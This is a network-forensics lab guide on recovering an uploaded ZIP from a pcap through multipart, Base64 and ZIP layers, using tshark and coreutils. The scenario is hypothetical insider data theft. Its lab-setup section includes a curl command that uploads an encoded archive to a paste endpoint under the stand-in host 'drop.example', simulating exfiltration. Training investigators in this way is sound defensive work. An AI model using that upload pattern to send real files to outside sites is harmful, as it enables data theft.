

# 1.13 — Lab Guide: Carving Exfiltrated Data { #lab-carving-exfiltrated-data }

!!! abstract "Scope of this lesson"
    - Find **the relevant TCP stream** in a full-packet pcap and isolate it
    - Extract **the uploaded content (payload)** from that stream, two different ways, and confirm with hashes that the results match
    - **Unwrap the extracted data in several steps** (multipart → Base64 → ZIP) back to the original files
    - Tell the "test upload" from the "real upload", and decide what you can state as fact about the recovered document
    - [Caution] if packets were retransmitted, simply concatenating packet contents produces the wrong file (tested directly)

!!! note "Lab environment and notation"
    **(Actual output)** comes from this environment's tcpdump 4.99.4, tshark 4.2.2, GNU coreutils (`base64`, `basenc`, `sha256sum`) and Info-ZIP `unzip`. The lab pcap was **captured** from real uploads sent with `curl` to a practice paste server I ran on loopback (`127.0.0.1`). The example names `drop.example` and `news.example` were set with the `Host` header, and the times are the actual capture times (2026-11-05 UTC). The uploaded document and table were invented for the lab, and the whole case is **(hypothetical)**. The "retransmission" file in section 8 is a variant **deliberately made** by duplicating one packet of the original pcap.

## 1. Logs only tell you "something was uploaded" { #why-carve }

**(Hypothetical)** A case similar to lesson 1.4. Proxy logs show that an employee in the research segment uploaded something twice to the paste site `drop.example`. All that's left in the log is `POST /post`, a `302` response, and the response sizes. As lesson 1.4, section 8 showed, **the uploaded content isn't in the log**. Fortunately, this site accepted unencrypted HTTP, and full packet capture was running on that segment.

The question: **what was uploaded?** Finding the answer in the pcap and turning it back into the original file is called **carving**. The word originally meant cutting file fragments out of unallocated disk space; on the network, it means cutting out just the part of a stream's bytes that is the file.

As an analogy, the post office's **counter log** (the proxy log) tells you only "this person sent a parcel to this address at this time". To know what was in it, you have to **open the parcel** (extract it from the pcap). Where the analogy differs: the network's "parcel" is wrapped in several layers (three in this lab), and the same piece can be **delivered twice** in transit. So you need a procedure that unwraps the layers in order and filters out duplicates.

!!! warning "[Caution] If it had been encrypted"
    Had the site used HTTPS, as in lesson 1.4's case, the pcap would hold only encrypted bytes, and this lab's method couldn't extract the content. You'd need records from one end of the connection (a TLS-intercepting proxy) or session keys, as in lesson 1.12, section 3.2. Before you start carving, check that the stream **is plaintext**.

## 2. How this lab is organised { #how-to-use }

The same structure as lesson 1.10 (objectives, preparation, lab, takeaways).

**Objectives**

1. Find and isolate the relevant TCP stream in a full-packet pcap.
2. Extract the payload from that stream.
3. Turn the extracted data back into the original files and judge their investigative value.

**Preparation**

- tcpdump, tshark (Wireshark), `base64`, `unzip` (or Python's `zipfile`), `sha256sum`
- The lab pcap `exfil.pcap` (60 packets). The starting lead: "there were two `POST`s to `drop.example`".

!!! example "To build the lab files yourself"
    In an empty folder: ① a tiny web server that answers `POST /post` with a `302` and a short `Location` (about 20 lines with Python's `http.server`); ② a file to upload (a few text files zipped and converted with `base64`); ③ capture with `tcpdump -i lo -w exfil.pcap 'tcp port 8099'` while sending requests such as `curl -H "Host: drop.example" -F "content=<bundle.b64" http://127.0.0.1:8099/post`. `-F "content=<file"` means "send the **contents** of the file as the value of the form field `content`". Run the practice server on your own loopback only.

Record a hash first, as soon as you receive it (lesson 1.11, section 4).

```bash
sha256sum exfil.pcap
```

**(Actual output)**

```text
ea9b3939a8bc04cc66e70422cfa2db98f9ae3a5dc68294f098843df26bfc1fa3  exfil.pcap
```

## 3. Step 1: find the relevant stream { #find-stream }

First, look at every HTTP request in the pcap as a table (lesson 1.10, section 6).

```bash
tshark -n -r exfil.pcap -Y http.request -T fields -E header=y \
  -e frame.number -e tcp.stream -e frame.time_utc -e http.request.method -e http.host \
  -e http.request.uri -e http.content_length -e http.content_type
```

**(Actual output, date part of the time and part of the boundary values trimmed)**

```text
frame.number  tcp.stream  frame.time_utc   method  http.host     uri      content_length  content_type
4             0           03:53:13.774927  GET     news.example  /today
16            1           03:53:13.782464  GET     drop.example  /
30            2           03:53:14.792823  POST    drop.example  /post    268             multipart/form-data; boundary=------...ojmtmX...
42            3           03:53:16.806079  POST    drop.example  /post    5559            multipart/form-data; boundary=------...ijgAGQ...
52            4           03:53:17.816165  GET     news.example  /weather
```

**Interpretation:** two `POST`s to `drop.example`, streams 2 and 3. Two seconds apart, but **very different sizes**: 268 bytes and 5,559 bytes. Both are `multipart/form-data`, i.e. data submitted through a web form. Look at the responses too.

```bash
tshark -n -r exfil.pcap -Y http.response -T fields -E header=y -e tcp.stream -e http.response.code -e http.location
```

**(Actual output)** Stream 2 got `302` with `/j3XFdQ`; stream 3 got `302` with `/oC8GVg`. Exactly the "after you post, the site redirects you to the new paste's short address" shape from lesson 1.4, section 8. This pcap has no `GET` actually opening those short addresses. That may mean the employee didn't check the paste after uploading, or checked it another way (this pcap alone can't tell).

tshark also dissects which fields the multipart contained.

```bash
tshark -n -r exfil.pcap -Y 'http.request.method == "POST"' -T fields -e tcp.stream -e mime_multipart.header.content-disposition
```

**(Actual output)**

```text
2	form-data;name="content",form-data;name="expire"
3	form-data;name="content",form-data;name="expire"
```

Both requests sent two fields: `content` (the paste) and `expire` (expiry time). **Stream 3** is now our focus.

!!! info "[Supplement] With a big pcap, reduce first"
    This lab file is small, but in reality you may start from hundreds of GB for a day. As in lesson 1.10, section 8, first reduce with tcpdump to that PC's address and the relevant port (`host address and tcp port 80`), then run the tshark commands above on the reduced file. Stream numbers are reassigned per file, so when going back to the original, use addresses, ports and times (lesson 1.10, section 6.2).

## 4. Step 2: look into the stream { #look-at-stream }

Look at only the packets in stream 3 that carry content.

```bash
tshark -n -r exfil.pcap -Y 'tcp.stream == 3 && tcp.len > 0' -T fields -e frame.number -e ip.src -e tcp.srcport -e tcp.len
```

**(Actual output)**

```text
40	127.0.0.1	44158	254
42	127.0.0.1	44158	5559
44	127.0.0.1	8099	135
```

The request went in **two packets**: packet 40 (254 bytes) is the request header, packet 42 (5,559 bytes) the body, matching `Content-Length: 5559` exactly. Packet 44 (135 bytes) is the server's `302` response. Wireshark marks packet 40 as "TCP segment of a reassembled PDU" and, at packet 42, joins the two pieces and dissects them as one HTTP request: the reassembly seen in lesson 1.10, section 8.3.

Now follow this stream in Wireshark (lesson 1.9, section 7). Select packet 42 and choose "Follow → TCP Stream", and the client's data looks like this. With tshark it's `-z follow,tcp,ascii,3`; below is the beginning, tidied.

**(Actual output, beginning)**

```text
POST /post HTTP/1.1
Host: drop.example
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:140.0) Gecko/20100101 Firefox/140.0
Accept: */*
Content-Length: 5559
Content-Type: multipart/form-data; boundary=------------------------ijgAGQGpxN7v6bpGEoTI7N

--------------------------ijgAGQGpxN7v6bpGEoTI7N
Content-Disposition: form-data; name="content"

UEsDBBQAAAAIAKAeZV1u0N79hQAAAKUAAAAIAAAAbWVtby50eHQVjrEOwjAMBfd+xRthoCsSIzDA
BOofmNQpkRy7ShxQ/p4y3Hp3j+lyu19BItaxFlsK5cw44EUe3jiicG3iFbtga98P59a5IJg6BT+h
...
```

Three things can be read here.

- **The multipart structure.** The string after `boundary=` is the **delimiter** between fields. In the body it appears as a line prefixed with `--`, and the final delimiter has an extra `--` at the end. Each field is a `Content-Disposition` header, a blank line, then the value.
- **The `content` field's value looks odd.** It isn't human text but long lines of only upper- and lower-case letters, digits, `+` and `/`, broken every 76 characters. That's the classic shape of **Base64**, commonly used to turn a binary file into text for pasting into a text field.
- **The leading `UEsDB`.** If Base64 data starts with `UEsDB`, the original data starts with `PK\x03\x04`, the **ZIP file magic number**. We haven't decoded it yet, but we can form the **hypothesis** that a ZIP was converted to Base64 and pasted.

!!! info "[Supplement] The User-Agent is only a self-declared name"
    This request claims to be Firefox, but in this lab it was actually `curl` with a Firefox name supplied via `-A`. As lesson 1.3 showed, the sender sets the User-Agent freely. The absence of headers a browser commonly sends, such as `Accept-Language` or `Accept-Encoding`, can be a clue, but it too is only an **observation**, not grounds to identify the tool.

## 5. Step 3: extract the payload, two ways { #extract }

### 5.1 Way 1: Export HTTP objects { #export-objects }

```bash
mkdir obj && tshark -n -r exfil.pcap -q --export-objects http,obj
ls -l obj
```

**(Actual output)**

```text
-rw-r--r-- 1 root root  126 Nov  5 03:54 %2f
-rw-r--r-- 1 root root  268 Nov  5 03:54 post
-rw-r--r-- 1 root root 5559 Nov  5 03:54 post(1)
-rw-r--r-- 1 root root  126 Nov  5 03:54 today
-rw-r--r-- 1 root root  126 Nov  5 03:54 weather
```

In lesson 1.10, section 6.3 we extracted response bodies; this time **`POST` request bodies** were extracted too. `post` (268 bytes) is stream 2 and `post(1)` (5,559 bytes) is stream 3; `(1)` is appended when names collide. `%2f` is the response for the `/` URL. As lesson 1.10 taught, **the name only comes from the URL**, so match files to streams by size and stream number.

### 5.2 Way 2: take the stream's raw bytes as-is { #follow-raw }

Many protocols have no export feature. For those cases, learn to take a stream's bytes directly too.

```bash
tshark -n -r exfil.pcap -q -z follow,tcp,raw,3 \
  | sed -n '7,$p' | grep -v '^=' | grep -v $'^\t' \
  | tr -d '\n' | tr 'a-f' 'A-F' | basenc --base16 -d > stream3-client.bin
```

Line by line:

- `-z follow,tcp,raw,3`: follow stream 3 as **hexadecimal text**. The first six lines are a header (`Follow: ...`, `Node 0: ...` and so on).
- `sed -n '7,$p'`: keep from the seventh line to the end. `grep -v '^='` drops the closing `====` line.
- `grep -v $'^\t'`: tshark indents the **server-sent** lines with a tab. Dropping them leaves **only the client side**.
- `tr -d '\n'`: remove newlines so the hex is one line.
- `tr 'a-f' 'A-F' | basenc --base16 -d`: turn the hex text back into bytes. coreutils' `basenc --base16` accepts only upper case, so convert first (this environment lacks the commonly used `xxd`; if you have it, `xxd -r -p` works too).

**(Actual output)** `stream3-client.bin` was 5,813 bytes, the sum of the two packets in section 4 (254 + 5,559). This is the whole request **including headers**, so cut off everything up to the blank line (`\r\n\r\n`) that ends the headers. In this lab a one-line Python snippet did it, splitting into 254 bytes of headers and 5,559 bytes of body.

**Compare the two methods' results by hash.**

**(Actual output)**

```text
2135a02b95f648e6f5b50ed0570a616f7ebc26a38689a76da5218108d864b022  stream3-body.bin
2135a02b95f648e6f5b50ed0570a616f7ebc26a38689a76da5218108d864b022  obj/post(1)
```

They match. Two different methods produced the same bytes, so the extraction is more trustworthy. Record both methods and both hashes in the report.

## 6. Step 4: unwrap the layers { #unwrap }

What we hold now is the multipart body. Three layers have to come off to reach the original files.



**How to read it:** read top to bottom, one layer at a time. Each box is **the output** of that step; record a hash at every step and you can reproduce the same result from any point later.

### 6.1 Take only the `content` field from the multipart { #multipart }

```bash
awk 'BEGIN{RS="\r\n"} /name="content"/{f=1;next} f==1&&/^$/{f=2;next} f==2&&/^--/{exit} f==2{print}' \
  "obj/post(1)" > content.b64
```

- `RS="\r\n"`: HTTP multipart lines end in `\r\n`, so use that as the record separator.
- `/name="content"/{f=1;next}`: on finding the `content` field's header, set a flag (`f=1`) and move on.
- `f==1&&/^$/{f=2;next}`: the next **blank line** ends the header; the value starts after it.
- `f==2&&/^--/{exit}`: stop when, while reading the value, a delimiter line starting with `--` appears.

**(Actual output)** `content.b64` was 5,302 bytes, starting `UEsDBBQAAAAI...`.

!!! warning "[Caution] This awk fits this file"
    This short command relies on this file's particulars: "there's one `content` field, and no line inside the value starts with `--`". Base64 contains no `-`, so it's safe here, but in plain-text or binary fields the value could contain such a line. To be exact, stop only at the line that matches **the actual boundary string** (`--` plus the `boundary=` value from the header). Splitting fields like this is safer left to a tool that properly parses multipart, such as Python's `email` module. Whatever the method, record the result's size and hash.

### 6.2 Decode Base64, then check the file type { #base64 }

```bash
base64 -d content.b64 > recovered.bin
file recovered.bin
sha256sum recovered.bin
```

**(Actual output)**

```text
recovered.bin: Zip archive data, at least v2.0 to extract, compression method=deflate
41d9c6322e7093ee9feae6e44ae6fe24f2f3adbb196ba0eba0d99db3a56eb747  recovered.bin
```

As hypothesised in section 4, it's **a ZIP file**. It matters that this was judged by the content's magic number, not by an extension (lessons 1.6 and 1.11, section 3.1).

In this lab we hold the uploader's original ZIP, so we could compare: its SHA-256 was also `41d9c632…b56eb747`, **not a single byte different**. In real cases you often have nothing to compare against. Then you check **integrity** instead by whether it decompresses without error (section 6.3) and whether the format's own checks (ZIP CRCs) pass.

### 6.3 Unzip { #unzip }

Before unzipping, **list the contents first**. An archive may contain executables, or odd paths (`../`) that try to write into other folders as they extract.

```bash
unzip -l recovered.bin
```

**(Actual output)**

```text
Archive:  recovered.bin
  Length      Date    Time    Name
---------  ---------- -----   ----
      165  2026-11-05 03:53   memo.txt
     9239  2026-11-05 03:53   orchid-b7-results.csv
---------                     -------
     9404                     2 files
```

Two text files, so the risk looks low. Extract into a separate folder (`unzip -q recovered.bin -d unz`). Running a CRC test with `unzip -t` too is a good idea.

**(Actual output)**

```text
ORCHID alloy programme - batch 7 results (copy)
Buyer contact: see separate channel. Payment on delivery of full dataset.
Remaining files to follow after departure.
```

That's the content of `memo.txt`. `orchid-b7-results.csv` was a 401-line table: one header line and measurements for 400 samples (`sample,temp_c,tensile_mpa,elong_pct`).

!!! warning "[Caution] Opening extracted files"
    These were text files, so we read them directly, but extracted files **may have been crafted by an attacker**. For documents or executables, as in lesson 1.5, look first in an analysis environment cut off from the network, preferably with tools that don't execute the content (`strings`, format-specific analysers). If a document reaches out to an external address when opened, it can tip off the other side that you're investigating (the OPSEC point from lesson 1.4).

## 7. Step 5: what can you say? { #interpret }

### 7.1 The test upload and the real one { #test-vs-real }

Opening stream 2 (268 bytes) the same way, the `content` field's value was `test 1 2 3` and the `expire` field was `10m` **(actual output)**. Side by side:

| | Stream 2 | Stream 3 |
| --- | --- | --- |
| Time (UTC) | 03:53:14.79 | 03:53:16.81 |
| Body size | 268 bytes | 5,559 bytes |
| `content` value | `test 1 2 3` | ZIP converted to Base64 (5,302 bytes) |
| Address returned | `/j3XFdQ` | `/oC8GVg` |

It looks like a short text first, to **test that the site works**, then the real data two seconds later. This order is common in exfiltration cases, and it is **circumstantial support** weighing towards "prepared and uploaded" rather than "uploaded by mistake". Only circumstantial, of course.

### 7.2 How to write it up { #report }

- **Observation (fact):** at 2026-11-05 03:53:16 UTC, at this capture point, there was a `POST /post` request to `drop.example` (stream 3). Its body's `content` field held a Base64-encoded ZIP file (SHA-256 `41d9c632…b56eb747`) containing `memo.txt` (SHA-256 `76d74957…6c22d006`) and `orchid-b7-results.csv` (SHA-256 `f2e19cc3…94345d8a482`). Two seconds earlier there was a `POST` to the same site with the content `test 1 2 3` (stream 2). The two extraction methods (HTTP object export, raw stream bytes) gave the same result hash.
- **Interpretation (hypothesis):** the order is a short test upload followed by the real material, and the memo's content ("buyer contact via a separate channel", "payment on delivery of full dataset", "remaining files after departure") **reads as** showing intent to hand the material to an outside party.
- **Evidence still needed:** the device and person using that source address at that time (DHCP, logon records, lesson 1.11, section 2.2); confirmation from the research department that the CSV matches actual internal research data; whether the pastes `/j3XFdQ` and `/oC8GVg` were actually published and who read them (may require legal process with the site operator); traces of the "separate channel" and "remaining files" the memo mentions (webmail, other uploads).
- **Limits of the observation:** this pcap is a few seconds at one capture point. What left by other routes (HTTPS, other sites) before or after can't be known from this file. The modification times inside the ZIP (2026-11-05 03:53) follow **the clock of the computer that made the ZIP**; the ZIP format records them without a time zone and only in 2-second units. So use them only as a reference for "when the files were made".

Judging that "the intent is clear" is ultimately a human decision. The analyst shows reproducibly **which bytes came from where**, conveys what the document says accurately by quoting it, and draws conclusions together with other evidence.

## 8. [Caution] With retransmissions, simple concatenation is wrong { #retransmission }

On real networks, packets are often lost or delayed and **the same content is sent again (retransmitted)**. Depending on the capture point, both the original and the retransmission may be recorded. To test this, I made `exfil-retrans.pcap` by inserting packet 42 of `exfil.pcap` (the 5,559-byte body) once more, 0.2 seconds later.

**(Actual output)**

```text
40	254		POST /post HTTP/1.1  [TCP segment of a reassembled PDU]
42	5559		POST /post HTTP/1.1
43	5559	1	[TCP Retransmission] 44158 → 8099 [PSH, ACK] Seq=255 Ack=1 Win=65536 Len=5559
45	135		HTTP/1.0 302 Found
```

Wireshark saw that packet 43's sequence numbers covered a range already received and flagged it `tcp.analysis.retransmission`. Now collect the client-side bytes three ways.

| Method | Result size |
| --- | --- |
| Simply concatenating each packet's `tcp.payload` | **11,372 bytes** (254 + 5,559 × 2) |
| Following the stream with `-z follow,tcp,raw,3` | 5,813 bytes |
| `--export-objects http` | 5,559-byte body, hash `2135a02b…` (same as the original) |

**(Actual output)** Simple concatenation contains the body **twice**, 5,559 bytes larger than the original. Decode that as Base64 and you get a wrong file or an error. Stream following and object export **filtered out the duplicate** using TCP sequence numbers.

So carve with **tools that reassemble streams by TCP sequence number**, not tools that look at packets one at a time (`tcpdump -A`, per-packet `tcp.payload`). Conversely, packets can also arrive out of order or be missing from the capture (the "bytes missing" in lesson 1.9, question 7), so always check **completeness**: does the result's size match `Content-Length`, do compression and file-format checks pass?

## 9. How to use this in real investigations { #in-practice }

1. **Check that it's plaintext.** If it's encrypted, look for connection-end records or keys instead of carving (lesson 1.12).
2. **Reduce, find, isolate.** Reduce large originals with BPF (lesson 1.10), find candidate streams with tshark tables, and isolate them by connection.
3. **Extract two ways and compare hashes.** Check that different methods, such as object export and raw stream bytes, give the same result.
4. **Unwrap one layer at a time, recording a hash at each step.** Multipart, encodings (Base64, URL encoding), compression (gzip, ZIP) and other formats in turn. Record the commands so any step can be reproduced.
5. **Check completeness.** `Content-Length`, archive checks, file-format checks. If bytes are missing, say so.
6. **Open extracted files safely.** List first, in an isolated environment, with tools that don't execute content.
7. **Write up facts, interpretation, evidence needed and limits separately.**

## 10. Summary { #summary }

- Logs tell you "something was uploaded"; packets tell you "**what** was uploaded", but only when it's plaintext.
- Tabulating `http.request` and looking at `POST`, size and `Content-Type` found the candidate streams. Of the two uploads, 268 and 5,559 bytes, the larger was our focus.
- There were two ways to extract: **HTTP object export** (which also exports `POST` bodies) and **raw stream bytes** (`-z follow,tcp,raw`). Their results had the same hash.
- There were three layers: **multipart → Base64 → ZIP**. `UEsDB` is the usual start of a Base64-encoded ZIP, and file types are judged by magic number, not extension. The recovered ZIP's hash matched the original.
- A short test upload followed by the real one, plus the memo's content, is circumstantial evidence of intent; the device, the person and the authenticity of the data are confirmed with other evidence.
- **[Caution]** With a retransmission present, simply concatenating packet contents bloated the result to 11,372 bytes. Carve with tools that reassemble streams by TCP sequence number, and check that the result is complete.

## Review questions { #review }

**Question 1. (Reading a command)** If you leave out `grep -v $'^\t'` from the command in section 5.2, what happens to `stream3-client.bin`?

??? success "Answer and explanation"
    In tshark's `follow` output, tab-indented lines are **the server-sent side**. Without removing them, the hex of the server's `302` response (135 bytes) is joined in too, giving a 5,948-byte file: the 5,813-byte client request followed by the server response. Cutting the body from after the headers to the end would then mix the HTTP response in after the Base64 field, and using it as-is gives a wrong result. When collecting one direction only, select that direction **explicitly** and compare the result size with `Content-Length`. (The 5,948 figure is calculated by adding this lab's two numbers.)

**Question 2. (Changed conditions)** If the same upload had arrived as `application/x-www-form-urlencoded` instead of `multipart/form-data`, which steps in sections 6.1–6.2 would change, and how?

??? success "Answer and explanation"
    A URL-encoded form body is **one line** like `content=...&expire=10m`, with `&` between fields and `=` between name and value. Special characters in values are **percent-encoded**, such as `%2B` (`+`), `%2F` (`/`) and `%3D` (`=`). So instead of section 6.1's delimiters, cut out the `content` value by `&` and `=`, and undo the percent-encoding **before** decoding Base64. There's also the rule that `+` turns into a space, so getting the order wrong breaks the Base64. Effectively there's one more layer. Recording size and hash at each step makes it easy to find where things went wrong.

**Question 3. (Common misconception)** "The `post(1)` extracted with `--export-objects http` is 5,559 bytes, so the file the employee exfiltrated is 5,559 bytes." What's wrong with this?

??? success "Answer and explanation"
    5,559 bytes is the size of **the whole multipart body**. It includes delimiters, field headers and the `expire` field, and the `content` value (5,302 bytes) is Base64 text, about four-thirds the size of the original data. The actual ZIP was 3,922 bytes, and the files inside were 165 and 9,239 bytes uncompressed. So when talking about "the exfiltrated file", say **which layer's size** you mean; usually you report the innermost original files and their hashes.

**Question 4. (Interpretation)** In section 3, this pcap had no `GET` opening the short addresses received with the `302`s (`/j3XFdQ`, `/oC8GVg`). In lesson 1.4's case, that `GET` followed immediately. What can and can't you say from this difference?

??? success "Answer and explanation"
    You can say: **at this capture point**, no request opening the paste was seen right after the upload. If a browser had followed the redirect automatically, as in lesson 1.4, a `GET` would have followed, so the program that sent this request may not follow redirects (in this lab it was indeed `curl` without `-L`). You can't say: that nobody viewed the paste. It could have been opened from another device or by another route (a phone, HTTPS), and this pcap covers only a few seconds. Together with the User-Agent point in section 4, this difference is material for the **hypothesis** that "it may have been a tool, not a browser".

**Question 5. (Calculation)** The Base64 text in the `content` field was 5,302 bytes, with a newline (`\n`) every 76 characters. If the decoded ZIP is 3,922 bytes, roughly how many Base64 characters, excluding newlines, should there be? Does it match?

??? success "Answer and explanation"
    Base64 turns 3 bytes into 4 characters, so 3,922 bytes is 3,922 ÷ 3 = 1,307.33… → 1,308 groups, i.e. 1,308 × 4 = **5,232 characters** (the last group padded with `=`). Split 76 per line, that's 69 lines (the last short), so 69 newlines, for a total of 5,232 + 69 = **5,301 bytes**. The actual file was 5,302 bytes because awk added one more output newline after the extracted value, which already ended in a newline (the original `bundle.b64` was 5,301 bytes). This **habit of checking sizes by calculation** is a good way to confirm that no bytes were lost or added in intermediate steps.

**Question 6. (Changed conditions)** If the same upload had used HTTP/1.1 `Transfer-Encoding: chunked`, what more would you need to do with section 5.2's "raw stream bytes" method? What about section 5.1's method?

??? success "Answer and explanation"
    With chunked transfer, the body arrives as a sequence of `size (hex)\r\ndata\r\n` pieces, ending with `0\r\n\r\n`. Using the raw stream bytes as-is leaves those **chunk-size lines interleaved with the data**, breaking the multipart and Base64. So after removing the headers, you need one more step to de-chunk and join only the data. Wireshark's HTTP dissector, on the other hand, de-chunks and reassembles the body, so `--export-objects` normally exports the de-chunked body. This case wasn't tested directly in this lesson, though; if you meet it, compare both methods' results by hash on a small sample. If the response has `Content-Encoding: gzip`, a decompression step is added too.

**Question 7. (Common misconception)** A junior analyst reports: "I copied the output of `tcpdump -A -r exfil-retrans.pcap`, pasted just the Base64 part and decoded it, and the ZIP was broken. So this data is corrupted." What's wrong?

??? success "Answer and explanation"
    `tcpdump -A` just shows packets **one at a time**; it doesn't reassemble TCP streams. Section 8's file has the same body recorded twice due to retransmission, so joining that output puts the Base64 in twice and yields a broken ZIP. What's broken isn't the data but **the extraction method**. Extract again by stream following or object export and you get the same hash as the original. Also, `tcpdump -A` replaces unprintable bytes with `.`, so it should never be used for binary data in the first place. Before writing "corrupted" in a report, extract again by another method and compare.

**Question 8. (Application)** On hearing this lab's results, the legal counsel asks, "Is it certain that CSV is our research data?" Separate what you can answer as the network analyst from what needs someone else's confirmation.

??? success "Answer and explanation"
    **What the analyst can answer:** from which time, which stream and which bytes the CSV was extracted, by which steps; its hash; that two methods gave the same result; and its outward form (401 lines, column names, sample-number format `B7-001`). **What needs other confirmation:** whether its content matches actual internal research data must be judged by **the research department** against the original data. If the same file exists in an internal store, hash comparison is the strongest evidence; if not, an expert checks whether the values match. And who was using that address at that time is confirmed separately from DHCP and logon records (lesson 1.11).

**Question 9. (Interpretation)** Section 7.2 says to use the file modification times inside the ZIP "only as a reference". Why? Are there cases where this value helps?

??? success "Answer and explanation"
    The ZIP's basic time field is **local time without time-zone information**, recorded only in 2-second units, and simply follows the clock of the computer that made it. That clock may have been wrong or deliberately changed, and some archivers write different times. So it alone can't establish "when it was made". It can still help: for example, if it's **a few minutes before** the upload time observed on the network, that fits the interpretation that the files were bundled just before uploading, and matched with other evidence (the endpoint's file-system records) it helps judge whether the archive was made on that PC. In this lab the ZIP time (03:53) and upload time (03:53:16) fell in the same minute because the lab files were made and uploaded immediately.

## References { #references }

- Tools used in this environment: tcpdump 4.99.4, tshark 4.2.2 (`--export-objects`, `-z follow`), GNU coreutils `base64`, `basenc`, `sha256sum`, Info-ZIP `unzip`/`zipinfo`, the Python 3 standard library. Outputs were obtained on 2026-11-05.
- Wireshark, [tshark manual source (release-4.6)](https://gitlab.com/wireshark/wireshark/-/blob/release-4.6/doc/man_pages/tshark.adoc) (checked 2026-11-05). `--export-objects` and the `-z follow` formats (`ascii`, `raw`, etc.).
- IETF, [RFC 7578: multipart/form-data](https://www.rfc-editor.org/rfc/rfc7578) and [RFC 2046: MIME Media Types](https://www.rfc-editor.org/rfc/rfc2046), section 5.1 (boundary syntax).
- IETF, [RFC 4648: The Base16, Base32, and Base64 Data Encodings](https://www.rfc-editor.org/rfc/rfc4648).
- IETF, [RFC 9112: HTTP/1.1](https://www.rfc-editor.org/rfc/rfc9112), section 7.1 (chunked transfer coding).
- PKWARE, [ZIP file format specification (APPNOTE.TXT)](https://pkware.cachefly.net/webdocs/casestudies/APPNOTE.TXT). The local file header signature `PK\x03\x04` and the MS-DOS date/time fields.

!!! note "About this page"
    A personal study note, rewritten in my own words from several learning resources. The lab server, uploaded files and pcap are my own, and the scenario and document contents are hypothetical.
